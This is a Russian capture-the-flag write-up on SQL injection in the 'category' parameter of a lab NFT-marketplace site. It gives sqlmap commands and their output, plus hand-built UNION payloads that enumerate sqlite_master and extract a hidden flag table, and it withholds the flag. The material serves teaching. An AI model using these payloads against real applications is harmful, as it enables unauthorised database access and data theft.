





# NFT Маркетплейс 🌐

## Описание задачи 📌

Название задачи:

```text
NFT Маркетплейс
```

Сложность:

```text
Easy
```

Описание со страницы задачи:

```text
Плюшевый Пепе создал свой маркетплейс подарков в телеграме.
Но он неуверен, что сайт полностью безопасен...
```

В качестве цели задачи был указан адрес:

```text
tasks.duckerz.ru:30071
```

Скрин страницы задачи:



## Что есть на старте 🔎

При переходе на сайт открывается маркетплейс:

```text
NFT gifts marketplace
```

Скрин сайта:



На главной странице видно:

```text
Telegram gifts nft marketplace
```

Также есть категории:

```text
All
Common
Rare
Exclusive
Legendary
```

В правом верхнем углу находится кнопка:

```text
Sign-In
```

## Первичное наблюдение 🧠

По описанию и интерфейсу задача выглядит связанной с маркетплейсом, авторизацией и объектами NFT/подарков.

На первом этапе стоит обратить внимание на:

- страницу входа `Sign-In`;
- категории товаров;
- запросы при переключении категорий;
- cookies и сессию после авторизации;
- возможные API-эндпоинты, которые отдают список подарков;
- параметры, связанные с редкостью, покупкой или владельцем подарка.

## Проверка SQL-инъекции вручную 🧪

При переключении категорий в URL появляется GET-параметр:

```text
category
```

Например:

```text
/index.php?category=Legendary
```

В этот параметр был добавлен простой SQLi payload:

```sql
' OR 1=1--
```

Итоговый URL выглядел так:

```text
/index.php?category=Legendary' OR 1=1--
```

Скрин ручной проверки:



Смысл проверки:

- `category` явно влияет на то, какие NFT отображаются на странице;
- если значение параметра напрямую попадает в SQL-запрос, кавычка `'` может закрыть строку;
- `OR 1=1` делает условие истинным;
- `--` комментирует остаток SQL-запроса.

То есть мы руками проверили, что параметр `category` похож на точку SQL-инъекции.

## Проверка через sqlmap 🧰

После ручной проверки был запущен `sqlmap`, чтобы автоматически подтвердить SQL-инъекцию и понять ее тип.

Первая команда:

```bash
sqlmap -u "http://tasks.duckerz.ru:30071/" --crawl=3 --forms --batch
```

Разберем параметры.

```bash
sqlmap
```

Инструмент для автоматического поиска и эксплуатации SQL-инъекций.

```bash
-u "http://tasks.duckerz.ru:30071/"
```

Целевой URL. В первом запуске был указан корень сайта.

```bash
--crawl=3
```

Просит sqlmap пройтись по ссылкам на сайте на глубину до `3`. Это нужно, чтобы инструмент сам нашел внутренние ссылки и параметры.

```bash
--forms
```

Просит искать и проверять HTML-формы.

```bash
--batch
```

Автоматически отвечает на вопросы sqlmap значениями по умолчанию. Это удобно, чтобы не подтверждать каждый шаг вручную.

## Как читать первый вывод sqlmap 📄

В первом запуске sqlmap начал crawling:

```text
starting crawler for target URL
searching for links with depth 1
searching for links with depth 2
searching for links with depth 3
```

Это значит, что инструмент ходит по страницам сайта и собирает ссылки.

Дальше он нашел URL:

```text
GET http://tasks.duckerz.ru:30071/?category=All
```

Это важный момент: sqlmap сам нашел параметр `category`, который мы заметили при ручной проверке.

Затем sqlmap проверил стабильность страницы:

```text
target URL content is stable
```

Это значит, что при одинаковом запросе страница возвращает примерно одинаковый ответ. Для sqlmap это важно: если страница постоянно меняется сама по себе, сложнее понять, изменилась она из-за payload или просто случайно.

Следующая строка:

```text
GET parameter 'category' appears to be dynamic
```

означает, что изменение `category` влияет на ответ страницы. То есть параметр не декоративный, сервер реально использует его при формировании ответа.

Потом sqlmap пишет:

```text
heuristic (basic) test shows that GET parameter 'category' might not be injectable
```

Это не финальный результат. Это только быстрая эвристическая проверка. На базовом уровне sqlmap пока не уверен, что параметр уязвим.

Дальше он перебирает разные техники:

```text
AND boolean-based blind
error-based
time-based blind
UNION query
```

В первом запуске результат был:

```text
GET parameter 'category' does not seem to be injectable
all tested parameters do not appear to be injectable
```

То есть базовый запуск не подтвердил SQL-инъекцию. Но это не значит, что инъекции нет. sqlmap сам подсказывает:

```text
Try to increase values for '--level'/'--risk'
```

Поэтому дальше проверку усилили.

## Усиленная проверка sqlmap ⚙️

Вторая команда:

```bash
sqlmap -u "http://tasks.duckerz.ru:30071/?category=All" --level=5 --risk=3 --batch
```

Здесь уже указан конкретный URL с параметром:

```text
?category=All
```

Это лучше, потому что мы прямо говорим sqlmap, какой параметр нужно тестировать.

Новые параметры:

```bash
--level=5
```

Максимальный уровень количества проверок. Чем выше `level`, тем больше мест и вариантов payload проверяет sqlmap.

```bash
--risk=3
```

Максимальный уровень "риска" payload. На высоком `risk` sqlmap может использовать более тяжелые или потенциально более заметные проверки, например time-based payload.

## Что нашел sqlmap 🧠

Во втором запуске появляется ключевая строка:

```text
GET parameter 'category' appears to be 'OR boolean-based blind - WHERE or HAVING clause' injectable
```

Это значит, что параметр `category` уязвим к boolean-based blind SQLi.

Boolean-based blind означает:

```text
sqlmap отправляет условие, которое истинно
sqlmap отправляет условие, которое ложно
сравнивает ответы страницы
если ответы отличаются предсказуемо — параметр уязвим
```

Например, payload из отчета:

```text
category=-8791' OR 8453=8453-- uuCc
```

Здесь:

- `'` закрывает строку;
- `OR 8453=8453` добавляет всегда истинное условие;
- `--` комментирует остаток запроса;
- случайный хвост `uuCc` нужен sqlmap для технической проверки и отделения payload.

Дальше sqlmap пишет:

```text
heuristic (extended) test shows that the back-end DBMS could be 'SQLite'
```

Это значит, что по поведению ответов sqlmap предположил базу данных SQLite.

Потом он подтверждает еще одну технику:

```text
GET parameter 'category' appears to be 'SQLite > 2.0 OR time-based blind (heavy query)' injectable
```

Time-based blind означает:

```text
если условие выполняется, база делает тяжелую операцию и ответ задерживается
если условие не выполняется, ответ приходит быстрее
по задержке можно понять результат условия
```

В payload видно тяжелую операцию SQLite:

```text
RANDOMBLOB(500000000/2)
```

Она заставляет базу выполнить ресурсозатратное действие, чтобы появилась измеримая задержка.

Еще один важный результат:

```text
target URL appears to be UNION injectable with 4 columns
```

Это значит, что sqlmap нашел возможность использовать `UNION SELECT`, и исходный SQL-запрос возвращает `4` колонки.

Дальше:

```text
GET parameter 'category' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
```

Это подтверждает UNION-инъекцию.

Пример payload:

```text
category=All' UNION ALL SELECT NULL,NULL,CHAR(...),NULL-- HCqR
```

Читается так:

- `All'` закрывает исходную строку категории;
- `UNION ALL SELECT` добавляет свою строку в результат SQL-запроса;
- `NULL,NULL,...,NULL` подбирает четыре колонки;
- `CHAR(...)` вставляет проверочную строку sqlmap в одну из колонок;
- `--` комментирует остаток запроса.

## Итог sqlmap ✅

В конце sqlmap выводит краткую сводку:

```text
Parameter: category (GET)
Type: boolean-based blind
Type: time-based blind
Type: UNION query
```

Это значит:

```text
уязвимый параметр: category
метод передачи: GET
подтверждено несколько техник SQL-инъекции
```

Также sqlmap определил окружение:

```text
web server operating system: Linux Debian
web application technology: Apache 2.4.54, PHP 7.4.33
back-end DBMS: SQLite
```

То есть приложение работает на Apache/PHP, а база данных — SQLite.

На этом этапе мы точно подтвердили, что параметр `category` уязвим к SQL-инъекции.

## Мини-введение в SQL 📚

Чтобы дальше было понятно, что происходит, разберем базовую идею SQL.

SQL — язык запросов к базе данных. Например, если сайт хранит NFT-подарки в таблице `tools`, то запрос для вывода категории может выглядеть примерно так:

```sql
SELECT ... FROM tools WHERE category = 'Common'
```

Читается это так:

- `SELECT ...` — выбрать какие-то колонки;
- `FROM tools` — из таблицы `tools`;
- `WHERE category = 'Common'` — только те строки, где категория равна `Common`.

Когда мы открываем URL:

```text
/index.php?category=Common
```

сервер может подставлять значение `Common` внутрь SQL-запроса:

```sql
SELECT ... FROM tools WHERE category = 'Common'
```

Проблема появляется, если сервер делает это небезопасно. Тогда вместо обычной категории можно передать кусок SQL-кода.

## Как ломается исходный запрос 🧩

Если отправить:

```text
category=Common' OR 1=1--
```

то предполагаемый SQL-запрос превращается примерно в:

```sql
SELECT ... FROM tools WHERE category = 'Common' OR 1=1--'
```

Разбор:

- `Common'` закрывает строку `'Common'`;
- `OR 1=1` добавляет условие, которое всегда истинно;
- `--` превращает остаток строки в комментарий.

Из-за `OR 1=1` база начинает возвращать больше данных, чем должна.

## Проверка количества колонок 🔢

Для `UNION SELECT` важно знать, сколько колонок возвращает исходный запрос.

Почему: если исходный запрос возвращает `4` колонки, то наш `UNION SELECT` тоже должен вернуть `4` значения. Иначе база выдаст ошибку.

Для проверки использовали `ORDER BY`:

```text
http://tasks.duckerz.ru:30071/index.php?category=Common%27%20ORDER%20BY%204--
```

В раскодированном виде:

```sql
Common' ORDER BY 4--
```

Что означает `ORDER BY 4`:

```text
отсортировать результат по четвертой колонке
```

Если четвертая колонка существует, запрос выполняется нормально. Если попробовать сортировку по несуществующей колонке, база обычно ругается или страница ломается.

Здесь `ORDER BY 4` сработал, значит в исходной выборке есть минимум `4` колонки. Это совпало с выводом sqlmap:

```text
target URL appears to be UNION injectable with 4 columns
```

## Почему используем Nope 🎭

В следующих запросах вместо реальной категории используется:

```text
Nope
```

Это сделано специально.

Если указать существующую категорию, сайт выведет обычные NFT из этой категории и данные из нашей инъекции могут затеряться среди нормального вывода.

`Nope` — несуществующая категория. Поэтому обычных строк почти нет, и на странице проще увидеть то, что мы подставили через `UNION SELECT`.

То есть `Nope` нужен не для обхода, а для удобства вывода.

## Проверка SQLite через версию ⚙️

sqlmap уже предположил SQLite. Вручную это можно подтвердить функцией:

```sql
sqlite_version()
```

Эта функция существует именно в SQLite и возвращает версию базы данных.

Идея запроса:

```sql
Nope' UNION SELECT 1,2,sqlite_version(),4--
```

Почему именно так:

- `Nope'` закрывает строку категории;
- `UNION SELECT` добавляет нашу строку в результат;
- `1,2,sqlite_version(),4` — четыре значения, потому что у исходного запроса четыре колонки;
- `sqlite_version()` ставим в выводимую колонку, чтобы увидеть результат на странице;
- `--` комментирует остаток запроса.

Если на странице появляется версия SQLite, значит база действительно SQLite.

Скрин подтверждения версии SQLite:



## Поиск таблиц через sqlite_master 🗂️

В SQLite есть служебная таблица:

```text
sqlite_master
```

Важно не путать:

```text
sqlite_master — это таблица
name, type, sql — это колонки внутри этой таблицы
```

`sqlite_master` — служебная таблица SQLite. Она не создается разработчиком вручную для логики приложения, а используется самой SQLite для хранения схемы базы данных.

Проще говоря, это "оглавление" базы. В нем написано, какие объекты существуют и как они были созданы.

Внутри `sqlite_master` есть несколько полезных колонок:

| Колонка | Что хранит |
|---|---|
| `type` | Тип объекта: `table`, `index`, `view`, `trigger` |
| `name` | Имя объекта, например имя таблицы |
| `tbl_name` | Имя таблицы, к которой относится объект |
| `sql` | SQL-команда, которой объект был создан |

То есть когда мы обращаемся к `sqlite_master`, мы читаем не пользовательские данные, а служебное описание структуры базы:

```text
какие таблицы существуют
как они называются
какие колонки у них есть
каким CREATE TABLE они были созданы
```

Чтобы получить список таблиц, использовали запрос:

```text
http://tasks.duckerz.ru:30071/index.php?category=Nope%27%20UNION%20SELECT%201,2,(SELECT%20group_concat(name,%27|%27)%20FROM%20sqlite_master%20WHERE%20type=%27table%27),4--
```

В раскодированном виде:

```sql
Nope' UNION SELECT 1,2,
  (SELECT group_concat(name,'|') FROM sqlite_master WHERE type='table'),
  4--
```

Разберем главную часть:

```sql
SELECT group_concat(name,'|') FROM sqlite_master WHERE type='table'
```

Что здесь происходит:

- `sqlite_master` — служебная таблица SQLite со схемой базы;
- `WHERE type='table'` — берем только таблицы;
- `name` — колонка внутри `sqlite_master`, где лежит имя таблицы;
- `group_concat(name,'|')` — склеивает все найденные имена в одну строку через разделитель `|`.

Почему нужен `group_concat`:

```text
UNION-вывод удобнее показывает одну строку,
поэтому несколько имен таблиц склеиваются в один текст.
```

В ответе получили:

```text
users|sqlite_sequence|s3cret|tools
```

Что это значит:

- `users` — таблица пользователей;
- `sqlite_sequence` — служебная таблица SQLite для AUTOINCREMENT;
- `s3cret` — подозрительная таблица с секретными данными;
- `tools` — вероятно, таблица с NFT/подарками.

Самая интересная таблица здесь:

```text
s3cret
```

## Получение структуры таблицы s3cret 🧬

Чтобы понять, какие колонки есть в таблице `s3cret`, нужно получить SQL-запрос ее создания.

Для этого используется колонка `sql` в `sqlite_master`:

```text
?category=Nope' UNION SELECT 1,2,(SELECT sql FROM sqlite_master WHERE name='s3cret'),4--
```

Внутренний запрос:

```sql
SELECT sql FROM sqlite_master WHERE name='s3cret'
```

Что он делает:

- ищет объект с именем `s3cret`;
- берет из служебной таблицы `sqlite_master` колонку `sql`;
- возвращает команду `CREATE TABLE`, которой эта таблица была создана.

Здесь `sql` — не отдельная таблица и не обычная пользовательская колонка с данными. Это служебная колонка внутри `sqlite_master`, где SQLite хранит текст команды создания объекта.

То есть для таблицы `s3cret` в колонке `sql` лежит примерно такая информация:

```text
как создать таблицу s3cret
какие у нее колонки
какой primary key
есть ли AUTOINCREMENT
```

В ответе получили:

```sql
CREATE TABLE "s3cret" (
  "id" INTEGER NOT NULL UNIQUE,
  "fl4g" TEXT,
  PRIMARY KEY("id" AUTOINCREMENT)
)
```

Теперь понятно, что в таблице `s3cret` есть колонка:

```text
fl4g
```

Именно она выглядит как место, где лежит флаг.

## Финальный запрос 🏁

Чтобы получить значение из `fl4g`, использовали запрос:

```text
http://tasks.duckerz.ru:30071/index.php?category=Nope%27%20UNION%20SELECT%201,%27flag%27,(SELECT%20group_concat(fl4g,%27|%27)%20FROM%20s3cret),4--
```

В раскодированном виде:

```sql
Nope' UNION SELECT 1,'flag',
  (SELECT group_concat(fl4g,'|') FROM s3cret),
  4--
```

Разберем по частям:

- `Nope'` закрывает строку категории;
- `UNION SELECT` добавляет нашу строку в результат;
- `1,'flag',...,4` — четыре значения для четырех колонок;
- `'flag'` — обычный текстовый маркер, чтобы строка выглядела понятнее на странице;
- `(SELECT group_concat(fl4g,'|') FROM s3cret)` — достает все значения из колонки `fl4g` таблицы `s3cret` и склеивает их через `|`;
- `--` комментирует остаток исходного SQL-запроса.

После выполнения этого запроса на странице появился флаг. В writeup сам флаг не вставляется.

Скрин с замазанным флагом:



## Итоговая цепочка ✅

```text
Категории используют параметр category
        ↓
Проверяем ' OR 1=1--
        ↓
sqlmap подтверждает SQL-инъекцию
        ↓
ORDER BY 4 подтверждает 4 колонки
        ↓
sqlite_version() подтверждает SQLite
        ↓
sqlite_master раскрывает список таблиц
        ↓
находим таблицу s3cret
        ↓
получаем CREATE TABLE для s3cret
        ↓
видим колонку fl4g
        ↓
UNION SELECT достает fl4g
        ↓
получаем флаг
```

Суть задачи: параметр `category` напрямую попадал в SQL-запрос. Через UNION-инъекцию удалось прочитать служебную таблицу SQLite, найти таблицу `s3cret`, узнать ее структуру и достать значение из колонки `fl4g`.

## Финальный статус 🏁

В решении использовали:

```text
цель: tasks.duckerz.ru:30071
сервис: NFT gifts marketplace
тема: Telegram gifts / NFT marketplace
уязвимый параметр: category
тип параметра: GET
DBMS: SQLite
подтвержденные техники: boolean-based blind, time-based blind, UNION query
ключевая таблица: s3cret
ключевая колонка: fl4g
```

Автор: masquadd :) ✍️
